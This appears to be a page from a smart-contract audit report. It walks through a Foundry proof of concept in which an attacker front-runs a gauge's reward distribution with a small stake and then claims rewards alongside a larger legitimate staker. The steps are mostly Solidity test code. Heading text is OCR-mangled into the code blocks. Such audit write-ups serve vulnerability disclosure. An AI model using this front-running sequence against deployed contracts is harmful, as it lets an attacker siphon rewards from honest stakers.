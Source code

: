 ### Detailed Attack Flow
Based on the POC, here's the step-by-step attack execution:


```solidity 
// Setup gauge weight
deal(address(veToken), address(this), 1000e18);
vm.startPrank(address(this));
GaugeController(controller).vote(address(gauge), 10000);
vm.stopPrank();
​
// Legitimate user stakes large amount
vm.startPrank(legitimateUser);
stakingToken.approve(address(gauge), 1000e18);
gauge.stake(1000e18);  // Stakes 1000 tokens
vm.stopPrank();
Waiting Period

vm.warp(block.timestamp + 5 days);
The attacker monitors the blockchain for pending reward distributions.
```

3. Front-Running Attack Execution

```solidity 
// Attacker front-runs with smaller stake
vm.startPrank(attacker);
stakingToken.approve(address(gauge), 100e18);
gauge.stake(100e18);  // Only stakes 100 tokens
vm.stopPrank();
​
// Reward distribution happens immediately after
vm.startPrank(address(this));
GaugeController(controller).distributeRevenue(
    IGaugeController.GaugeType.RAAC,
    10000e18
);
vm.stopPrank();
Reward Accrual Period:

vm.warp(block.timestamp + 1 hours);
Reward Claims & Analysis.

// Attacker claims first
vm.startPrank(attacker);
gauge.getReward();
vm.stopPrank();
​
// Legitimate user claims
vm.startPrank(legitimateUser);
gauge.getReward();
vm.stopPrank();
```
